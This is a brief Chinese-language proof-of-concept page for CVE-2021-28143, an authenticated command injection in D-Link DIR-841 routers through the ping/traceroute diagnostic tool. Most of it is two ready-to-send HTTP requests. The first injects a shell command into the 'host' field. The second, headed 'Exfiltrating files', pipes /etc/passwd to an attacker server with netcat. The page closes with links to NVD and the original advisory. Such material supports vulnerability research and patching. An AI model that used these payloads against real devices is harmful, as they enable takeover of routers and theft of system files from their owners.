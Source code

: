# D-LINK DIR-841 命令注入（CVE-2021-28143）


D-Link DIR-841 3.03和3.04 存在经过身份验证的命令注入，通过“系统工具”（ping/ping6/traceroute）命令注入，可导致攻击者进行完全控制设备。

PoC：


```
POST /jsonrpc HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Digest username="admin", realm="domain", nonce="4784226", uri="/jsonrpc", response="84799b55020cf2c53e28214e3d60b899", qop=auth, nc=00000035, cnonce="bPzBB3mcvSb51Ijx"
Content-Length: 156
Origin: IP
Connection: close
Referer: http://ip-address:9821/admin/index.html
Cookie: user_ip=0.0.0.0; device_mode=router; user_login=admin; device-session-id=<session>

{"jsonrpc":"2.0","method":"write","params":{"id":166,"data":{"host":"'127.0.0.1 & sleep 5'","count":1,"is_ipv6":false,"max_ttl":30,"nqueries":2,"waittime":3},"save":true},"id":757}
```

Exfiltrating files


```
POST /jsonrpc HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Digest username="admin", realm="domain", nonce="4784226", uri="/jsonrpc", response="84799b55020cf2c53e28214e3d60b899", qop=auth, nc=00000035, cnonce="bPzBB3mcvSb51Ijx"
Content-Length: 156
Origin: IP
Connection: close
Referer: http://ip-address:9821/admin/index.html
Cookie: user_ip=0.0.0.0; device_mode=router; user_login=admin; device-session-id=<session>

{"jsonrpc":"2.0","method":"write","params":{"id":166,"data":{"host":"'127.0.0.1 & nc SERVER-IP 1234 < /etc/passwd'","count":1,"is_ipv6":false,"max_ttl":30,"nqueries":2,"waittime":3},"save":true},"id":757}
```

ref：

* https://nvd.nist.gov/vuln/detail/CVE-2021-28143
* https://github.com/vitorespf/Advisories/blob/master/DLINK-DIR-841-command-injection.txt